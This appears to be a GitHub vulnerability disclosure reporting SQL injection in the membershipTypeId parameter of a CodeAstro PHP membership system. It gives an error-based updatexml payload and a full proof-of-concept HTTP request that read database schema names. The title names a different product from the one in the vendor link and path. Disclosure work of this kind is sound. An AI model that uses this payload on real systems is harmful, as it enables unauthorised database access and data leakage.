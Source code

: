 # SQLi-1

# Vulnerability Description

The Web-based Student Clearance System in PHP Free Source Code (It is an open source project from [https://codeastro.com/](https://codeastro.com/)) has SQL injection vulnerabilities, which can lead to database information leakage.

1. BUG_Author: Tr0e
2. vendors: https://codeastro.com/membership-management-system-in-php-with-source-code/;
3. The program is built using the PHP 7.3.4nts version;
4. Vulnerability location: /get_membership_amount.php

# Vulnerability Verification

[+] Payload:

```java
/get_membership_amount.php?membershipTypeId=-1+and+(updatexml(1,concat(0x7e,(select+schema_name+from+information_schema.schemata+limit+4,1),0x7e),1))--+
```

POC：

```js
GET /membership/get_membership_amount.php?membershipTypeId=-1+and+(updatexml(1,concat(0x7e,(select+schema_name+from+information_schema.schemata+limit+4,1),0x7e),1))--+ HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=04m7j5gs6vvmk9sh7s0fptra0o
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1


```

## How to verify

Build the vulnerability environment according to the steps provided by the source code author and execute the poc provided above：

​![image](assets/image-20240225145511-l0kkj0t.png)​

‍
